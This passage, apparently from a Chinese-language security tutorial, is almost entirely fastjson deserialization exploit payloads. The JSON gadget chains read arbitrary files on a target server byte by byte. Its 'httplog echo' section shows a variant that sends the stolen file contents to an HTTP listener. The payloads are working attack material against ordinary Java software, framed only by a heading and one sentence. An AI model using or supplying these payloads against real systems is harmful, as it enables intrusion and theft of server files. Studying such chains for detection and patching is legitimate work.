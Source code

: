 ```plain
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```plain
{"su15":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}}
```

[![](assets/1706959415-a31b52a8cc1835faea31b4253d0024dd.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021152553230.png)

#### 4.1.2.2 httplog 回显法

修改`4.1.2.1`中最后一步为如下`payload`：

```plain
{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Users/whoami/Desktop/testtest.txt"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}
```
